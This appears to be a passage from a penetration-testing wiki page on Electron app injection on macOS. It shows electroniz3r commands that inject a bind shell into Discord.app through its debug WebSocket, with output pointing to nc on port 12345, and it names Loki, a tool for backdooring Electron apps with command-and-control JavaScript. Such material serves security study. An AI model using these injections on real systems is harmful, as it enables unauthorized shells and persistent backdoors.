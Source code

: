```bash
/electroniz3r verify "/Applications/Discord.app"

/Applications/Discord.app started the debug WebSocket server
The application is vulnerable!
You can now kill the app using `kill -9 57739`

# Get a shell inside discord
## For more precompiled-scripts check the code
./electroniz3r inject "/Applications/Discord.app" --predefined-script bindShell

/Applications/Discord.app started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/8e0410f0-00e8-4e0e-92e4-58984daf37e5
Shell binding requested. Check `nc 127.0.0.1 12345`
```


- [https://github.com/boku7/Loki](https://github.com/boku7/Loki)

Loki was designed to backdoor Electron applications by replacing the applications JavaScript files with the Loki Command & Control JavaScript files.


## References

- [https://www.electronjs.org/docs/latest/tutorial/fuses](https://www.electronjs.org/docs/latest/tutorial/fuses)
- [https://www.trustedsec.com/blog/macos-injection-via-third-party-frameworks](https://www.trustedsec.com/blog/macos-injection-via-third-party-frameworks)
- [https://m.youtube.com/watch?v=VWQY5R2A6X8](https://m.youtube.com/watch?v=VWQY5R2A6X8)

{{#include ../../../banners/hacktricks-training.md}}
